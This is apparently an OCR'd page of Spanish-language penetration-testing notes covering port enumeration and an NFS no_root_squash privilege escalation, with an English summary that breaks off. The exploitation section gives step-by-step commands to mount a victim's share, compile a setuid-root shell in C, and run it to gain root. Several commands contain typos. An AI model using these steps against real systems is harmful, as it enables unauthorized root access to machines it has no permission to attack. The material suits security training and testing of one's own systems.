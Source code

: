 Conocer que puertos y servicios asociados estan activos

##### Instrucciones

- netstat -punta
- Lsoft -P -i -n : Permite visualizar los puertos TCP y UDP en escucha así como las conexiones activas en el sistema
  - Lsoft lista los ficheros abiertos en el sistema. Otros comandos útiles: -p PID, -u Use, -c nombre_proceso, +D directorio/path concreto
- iptables -L: Listar las reglas de iptables

#### Bala de plata II: NFS

Tal y como se ha comentado antes, NFS no esta "diseñado" para ser seguro per se. En determinadas condiciones, es posible explotar su mala configuración y ser root.

###### Detección

1. El servicio esta activo
2. Realizar cat/etc/exports
3. Comprobar que la opcion no_root_squash esta presente ( y en que directorio)
4. Analizar otras posibles opciones que pueden resultar un problema, como nosuid o nodev

###### Explotacion

1. Montar NFS
   1. showmount -e IP_MAQUINA_VICTIMA
   2. nmap –sV –script=nfs-showmount \<target>
   3. mkdir /tmp/1
   4. mount -o rw, vers=2 IP_MAQUINA_VICTIMA:/tmp/tmp/1
   5. mount -o rw,vers=2 \<target>:\<share> <local_directory>
   6. Vers= version del NFS, puede cambiaR
2. Crear el siguiente fichero:
       #define NULL 0
       int main(){
         setgid(0);
         setuid(0);
         execl("/bin/sh","sh",NULL); // system("/bin/bash");return 0;}
3. Como root (en el local host) compilar y ejecutar el fichero en el directorio montado
   1. gcc /tmp/1/shell.c -o /tmp/1/shell
4. Fijar el suid en el ejecutable
   1. chmod +s /tm/1/shell
5. Ejecutar el fichero en el NFS server
   1. /tmp/shell
   2. id

###### Resumen

When **no_root_squash** appears in `/etc/exports`, the folder is shareable and a remote user can mount it.

1. remote check the name of the folder

2. showmount -e IP

3. create dir: mkdir /tmp/foo 
